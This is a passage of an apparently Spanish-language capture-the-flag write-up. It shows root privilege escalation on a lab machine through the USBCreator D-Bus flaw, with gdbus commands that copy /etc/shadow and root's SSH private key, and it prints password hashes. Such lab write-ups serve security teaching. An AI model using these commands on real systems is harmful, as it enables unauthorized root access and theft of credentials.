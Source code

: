 Realizando un escaneo de procesos corriendo en la máquina, notamos que hay uno ejecutándose con privilegios de administrador:

```bash
nadav@passage:~$ ps aux
...
root      35653  0.0  0.5 235544 20112 ?        Sl   15:48   0:00 /usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
nadav     35999  0.0  0.0  44404  3032 pts/23   R+   16:45   0:00 ps aux
```

Buscando en internet `usb-creator exploit` nos encontramos un lindo artículo en el que se explica el funcionamiento de USBCreator y D-Bus, en el sistema. Básicamente la vulnerabilidad consiste en que podemos sobreescribir archivos del sistema y todo con el usuario `root` sin necesidad de contraseña.

> A system bus, which is mainly used by privileged services to expose system-wide relevant services, and one session bus for each logged in user, which exposes services that are only relevant to that specific user. [PaloAltoNetworks](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

* [Artículo explicando funcionamiento de D-Bus y la vulnerabilidad en **com.ubuntu.USBCreator**](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/).

> Recomiendo mucho leer el artículo :)

La vulnerabilidad se da por una herramienta de **Unix** (`dd`), la cual es usada por `USBCreator`. Que es la que nos permite copiar archivos. Intentemos copiarnos el archivo `/etc/shadow`.

```bash
nadav@passage:/dev/shm$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /etc/shadow /dev/shm/shadow true
()
nadav@passage:/dev/shm$ ls | grep shadow
shadow
nadav@passage:/dev/shm$
```

```bash
nadav@passage:/dev/shm$ cat shadow                                                              
root:$6$mjc8Tvgr$L56bn5KQDtOyKRdXBTL4xcmT7FVWJbds.Fo0FVc11PWliaNu5ASAxKzaEddyaYGMxGQPUNo5UpxT/nawzS8TW0:18464:0:99999:7:::
...
nadav:$6$D30IVulR$vENayGqKX8L0RYB/wcf7ZMfFHyCedmEIu4zXw7bZcH3GBrCrBzHJ3Y/in96pthdcp5cU.0UTXobQLu7T0INzk1:18464:0:99999:7:::
paul:$6$cpGlwRS2$AhcQyxAskjvAQtS4vpO0VgNW0liHRbLSosZlrHpzL3XTfPHmeDL7hWkut1kCjgNnEHIdU9J019hQTAMH6nzxe1:18464:0:99999:7:::
```

Perfecto, pues copiemos el `id_rsa` del usuario `root` para posteriormente obtener una Shell ingresando con su llave privada, lo mismo que hicimos con `nadav`.

```bash
nadav@passage:/dev/shm$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/paentrar true
()
```
